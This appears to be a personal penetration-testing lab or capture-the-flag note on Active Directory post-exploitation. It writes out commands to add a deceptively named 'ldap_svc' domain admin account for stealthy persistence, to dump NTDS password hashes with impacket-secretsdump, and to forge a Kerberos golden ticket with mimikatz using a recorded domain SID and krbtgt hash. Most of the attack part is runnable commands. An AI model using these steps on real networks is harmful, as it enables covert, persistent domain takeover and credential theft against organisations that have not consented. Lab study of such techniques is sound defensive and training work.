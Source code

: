 # Adding domain admin for persistence
---
- **Adding domain admin user with service similar name to be sneaky**
	- `net user /add ldap_svc Password123 /domain`
	- `net group "Domain Admins" ldap_svc /add /domain`
	![[Pasted image 20250528070146.png]]

# Dumping NTDS.nit
---
- `impacket-secretsdump 'ldap_svc':'Password123'@10.10.10.225 -just-dc-ntlm `
	- ![[Pasted image 20250528070802.png]]

	![[Pasted image 20250528172928.png]]
# Golden Ticket Attack
---
- Grab mimikatz using python server on linux mail machine and curl on DC machine:
	- ![[Pasted image 20250528072010.png]]

	- Generate the ticket as local admin on the machine and transfer it to any domain user's accessible directory:
		- `privilege::debug`
		- `lsadump::lsa /inject /name:krbtgt`
			
		- Note the Domain SID: `S-1-5-21-580410294-4250016986-2214633728` and NT hash of `krbtgt` account: `5104c6f221ac3c4deaf32579d0ab1da1`
			- `kerberos::golden /User:fakeuser123 /domain:THEPASTAMENTORS.com /sid:S-1-5-21-580410294-4250016986-2214633728 /krbtgt:5104c6f221ac3c4deaf32579d0ab1da1 /id:500`

		- ![[Pasted image 20250528174752.png]]
	

	- Load the ticket with domain user
		- ![[Pasted image 20250528174613.png]]